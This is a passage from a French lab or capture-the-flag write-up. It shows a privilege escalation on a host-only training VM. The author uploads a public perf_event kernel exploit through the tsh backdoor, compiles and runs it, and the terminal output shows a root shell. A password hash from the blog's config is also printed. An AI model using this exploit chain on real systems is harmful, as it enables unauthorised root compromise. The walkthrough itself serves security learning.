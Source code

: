 
Dans `/var/www` il y a un dossier *blog* qui correspond à un *Simple PHP Blog* troué... mais à ce stade, on est déjà allé trop loin :p   

Le fichier `blog/config/password.txt` contient un hash que l'on ne prendra donc pas la peine de tenter de casser : `$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/`.  

Root em all
-----------

Sur *exploit-db* on trouve [un exploit de sd](http://www.exploit-db.com/exploits/25444/) qui convient à l'architecture et au kernel.  

Comme la VM est en host-only je préfère envoyer directement l'exploit sur la machine via `tsh` :  

```console
$ ./tsh 10.10.10.100 put perf.c /tmp/
```

Côté VM :  

```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ mv /tmp/perf.c .
$ head perf.c
/*
 * linux 2.6.37-3.x.x x86_64, ~100 LOC
 * gcc-4.6 -O2 semtex.c && ./a.out
 * 2010 sd@fucksheep.org, salut!
 *
 * update may 2013:
 * seems like centos 2.6.32 backported the perf bug, lol.
 * jewgold to 115T6jzGrVMgQ2Nt1Wnua7Ch1EuL9WXT2g if you insist.
 */

$ gcc -O2 perf.c -o perf
$ ./perf
2.6.37-3.x x86_64
sd@fucksheep.org 2010
root@web:/var/www/blog# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@web:/var/www/blog# cd /root
root@web:~# ls -alR
.:
total 32
drwx------  4 root root 4096 May  9  2011 .
drwxr-xr-x 21 root root 4096 Feb 22 23:39 ..
drwx------  2 root root 4096 May  7  2011 .aptitude
-rw-r--r--  1 root root  107 May  9  2011 .bash_history
-rw-r--r--  1 root root 3106 Oct 21  2010 .bashrc
drwx------  2 root root 4096 May  7  2011 .cache
-rw-r--r--  1 root root    0 May  9  2011 .mysql_history
-rw-r--r--  1 root root  140 Oct 21  2010 .profile
-rw-------  1 root root  837 May  9  2011 .viminfo

./.aptitude:
total 8
drwx------ 2 root root 4096 May  7  2011 .
drwx------ 4 root root 4096 May  9  2011 ..
-rw-r--r-- 1 root root    0 May  7  2011 config

./.cache:
total 8
drwx------ 2 root root 4096 May  7  2011 .
drwx------ 4 root root 4096 May  9  2011 ..
-rw-r--r-- 1 root root    0 May  7  2011 motd.legal-displayed
```